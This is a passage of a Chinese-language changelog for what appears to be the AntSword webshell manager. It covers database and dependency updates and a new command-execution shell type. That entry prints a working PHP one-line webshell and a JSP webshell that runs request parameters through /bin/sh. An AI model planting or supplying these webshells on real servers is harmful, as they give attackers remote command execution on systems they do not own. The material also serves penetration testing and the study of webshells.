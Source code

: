 * 优化了新增Core类型时，编码设置解析逻辑, 现在不需要再改该模块的源代码了
* 优化全局代理设置, 代理在设置完后不需要再重启了

### 其它

* 更新纯真IP数据库为 2022/04/20 (https://github.com/out0fmemory/qqwry.dat)

> 如需自己更新请下载后替换 `static/libs/qqwry.dat` 文件

* 升级 superagent 到 6.1.0 (再高的版本需要高版本Electron支持)
* 升级 superagent-proxy 到 v3.0.0


## 2021/07/25 `v(2.1.14)`

### 核心

* 新增 CMDLINUX Shell 类型

> 基于命令执行的一句话类型, 仅支持 Linux 环境

只要有一个可以执行命令的点, 就可以快乐起来 :)

* PHP:

```php
<?php system($_POST['ant']);?>
```

* 比较流行的 JSP 命令执行 WebShell

```jsp
<%
  if(request.getParameter("cmd")!=null){
    java.io.InputStream in = Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",request.getParameter("cmd")}).getInputStream();
    int a = -1;
    byte[] b = new byte[1];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
      out.print(new String(b));
    }
    out.print("</pre>");
  }
%>
```

**注意: Runtime.exec 方法直接传入字符串时不支持多条命令拼接，需要使用数组方式**

* 简化新增类型后Shell创建步骤


### 数据库管理

* 新增 CMDLINUX 类型数据库管理(支持 mysql、sqlite3)

> 利用 mysql和sqlite3 客户端命令，需要目标上有对应的二进制


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino
